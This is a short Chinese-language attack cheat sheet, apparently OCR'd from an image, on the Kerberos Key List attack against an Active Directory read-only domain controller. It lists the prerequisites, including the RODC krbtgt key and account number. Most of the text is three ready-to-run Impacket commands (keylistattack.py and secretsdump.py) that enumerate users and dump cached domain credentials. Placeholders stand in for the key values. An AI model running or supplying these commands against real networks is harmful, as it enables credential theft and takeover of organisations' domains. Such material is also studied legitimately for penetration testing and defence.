 	如果用户包含在Allowed RODC Password Replication中，则他们的凭据将存储在服务器中，并且 RODC 的msDS-RevealedList属性将填充用户名。
	要求：
	Impacket PR #1210 - Kerberos 密钥列表攻击（https://github.com/SecureAuthCorp/impacket/pull/1210）
	RODC 的krbtgt凭据 (-rodcKey)
	RODC的krbtgt账号ID（-rodcNo）
	keylistattack.py 使用 SAMR 用户不过滤枚举（-full 标志）
	>keylistattack.py DOMAIN/user:password@host -rodcNo XXXXX -rodcKey XXXXXXXXXXXXXXXXXXXX -full
	keylistattack.py 定义目标用户名（-t 标志）
	>keylistattack.py -kdc sever.domain.local -t user -rodcNo XXXXX -rodcKey XXXXXXXXXXXXXXXXXXXX LIST
	secretsdump.py 使用 Kerberos 密钥列表攻击选项 (-use-keylist)
	>secretsdump.py DOMAIN/user:password@host -rodcNo XXXXX -rodcKey XXXXXXXXXXXXXXXXXXXX -use-keylist
